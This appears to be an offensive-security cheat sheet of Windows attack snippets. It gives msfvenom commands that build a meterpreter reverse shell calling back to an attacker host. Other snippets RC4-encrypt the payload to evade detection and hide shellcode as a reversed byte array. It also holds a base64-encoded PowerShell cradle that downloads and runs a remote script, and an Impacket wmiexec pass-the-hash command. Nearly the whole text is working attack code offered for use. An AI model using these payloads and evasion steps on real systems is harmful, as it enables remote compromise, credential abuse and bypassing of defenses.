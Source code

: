 ##### Hex Encode 

```py
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
//cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
xxd -i encmeter.bin
```

##### Default MSF bin

```py
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Proxy Loading worked!" -f raw > shellcode.bin
```

##### Shellcode reverse bytes array

```powershell
//Reversed bytes array 
//msfvenom -a x64 -p windows/x64/messagebox Text="Hello from shellcode"  -f csharp
byte[] sc = new byte [299] { 0x00, 0x78, 0x6f, 0x42, 0x65, 0x67, 0x61, 0x73, 0x73, 0x65, 0x4d, 0x00, 0x65, 0x64, 0x6f, 0x63, 0x6c, 0x6c, 0x65, 0x68, 0x73, 0x20, 0x6d, 0x6f, 0x72, 0x66, 0x20, 0x6f, 0x6c, 0x6c, 0x65, 0x48, 0xd5, 0xff, 0x56, 0xa2, 0xb5, 0xf0, 0xba, 0x41, 0xc9, 0x31, 0x48, 0xd5, 0xff, 0x07, 0x56, 0x83, 0x45, 0xba, 0x41, 0xc9, 0x31, 0x48, 0x00, 0x00, 0x01, 0x13, 0x85, 0x8d, 0x4c, 0x3e, 0x00, 0x00, 0x00, 0xfe, 0x95, 0x8d, 0x48, 0x3e, 0x00, 0x00, 0x00, 0x00, 0xc1, 0xc7, 0x49, 0x5d, 0xff, 0xff, 0xff, 0x49, 0xe9, 0x12, 0x8b, 0x48, 0x3e, 0x5a, 0x59, 0x41, 0x58, 0xe0, 0xff, 0x52, 0x41, 0x20, 0xec, 0x83, 0x48, 0x5a, 0x41, 0x59, 0x41, 0x58, 0x41, 0x5a, 0x59, 0x5e, 0x58, 0x41, 0x58, 0x41, 0xd0, 0x01, 0x48, 0x88, 0x04, 0x8b, 0x41, 0x3e, 0xd0, 0x01, 0x49, 0x1c, 0x40, 0x8b, 0x44, 0x3e, 0x48, 0x0c, 0x8b, 0x41, 0x3e, 0x66, 0xd0, 0x01, 0x49, 0x24, 0x40, 0x8b, 0x44, 0x3e, 0x58, 0xd6, 0x75, 0xd1, 0x39, 0x45, 0x08, 0x24, 0x4c, 0x03, 0x4c, 0x3e, 0xf1, 0x75, 0xe0, 0x38, 0xc1, 0x01, 0x41, 0x0d, 0xc9, 0xc1, 0x41, 0xac, 0xc0, 0x31, 0x48, 0xc9, 0x31, 0x4d, 0xd6, 0x01, 0x48, 0x88, 0x34, 0x8b, 0x41, 0x3e, 0xc9, 0xff, 0x48, 0x5c, 0xe3, 0xd0, 0x01, 0x49, 0x20, 0x40, 0x8b, 0x44, 0x3e, 0x18, 0x48, 0x8b, 0x3e, 0x50, 0xd0, 0x01, 0x48, 0x6f, 0x74, 0xc0, 0x85, 0x48, 0x00, 0x00, 0x00, 0x88, 0x80, 0x8b, 0x3e, 0xd0, 0x01, 0x48, 0x3c, 0x42, 0x8b, 0x3e, 0x20, 0x52, 0x8b, 0x48, 0x3e, 0x51, 0x41, 0x52, 0xed, 0xe2, 0xc1, 0x01, 0x41, 0x0d, 0xc9, 0xc1, 0x41, 0x20, 0x2c, 0x02, 0x7c, 0x61, 0x3c, 0xac, 0xc0, 0x31, 0x48, 0xc9, 0x31, 0x4d, 0x4a, 0x4a, 0xb7, 0x0f, 0x48, 0x3e, 0x50, 0x72, 0x8b, 0x48, 0x3e, 0x20, 0x52, 0x8b, 0x48, 0x3e, 0x18, 0x52, 0x8b, 0x48, 0x3e, 0x60, 0x52, 0x8b, 0x48, 0x65, 0xd2, 0x31, 0x48, 0x56, 0x51, 0x52, 0x50, 0x41, 0x51, 0x41, 0x00, 0x00, 0x00, 0xd0, 0xe8, 0xff, 0xff, 0xff, 0xf0, 0xe4, 0x81, 0x48, 0xfc};
Array.Reverse(sc);
int size = sc.Length;
//There are resource online that can help you generating a reverse array
```


##### PS memory 

```powershell
$string = "iex (New-Object Net.WebClient).DownloadString('http://<webServer>:8082/ps.ps1')"
$encodedcommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($string))
echo $encodedcommand
```

##### Impacket
Impacket is a collection of Python classes for working with network protocols
```py
proxychains python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes e353da88f9c4331504f70d471f0f9cb1:REDACTED a.user@10.10.120.1
```
